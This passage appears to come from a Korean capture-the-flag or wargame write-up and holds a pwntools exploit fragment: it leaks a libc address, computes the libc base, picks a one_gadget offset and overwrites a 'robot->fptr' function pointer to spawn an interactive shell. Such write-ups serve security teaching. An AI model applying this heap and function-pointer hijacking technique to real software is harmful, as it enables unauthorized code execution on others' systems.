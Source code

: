 ```py
# 반대로 'A'라면, 0x3ebc41이어야 한다.

# custom(0x500, b'a'*0x8, -1)
# p.recvuntil(b'a'*0x8)

libc_base = u64(p.recvline()[:-1].ljust(8, b'\x00')) - 0x3ebc42
og = libc_base + 0x10a41c  # 제약 조건을 만족하는 원가젯
# og = libc_base + 0x4f3ce
# og = libc_base + 0x4f3d5
# og = libc_base + 0x4f432

# [2] `robot->fptr` Overwrite
human(1, og)
robot(1)

p.interactive()
```
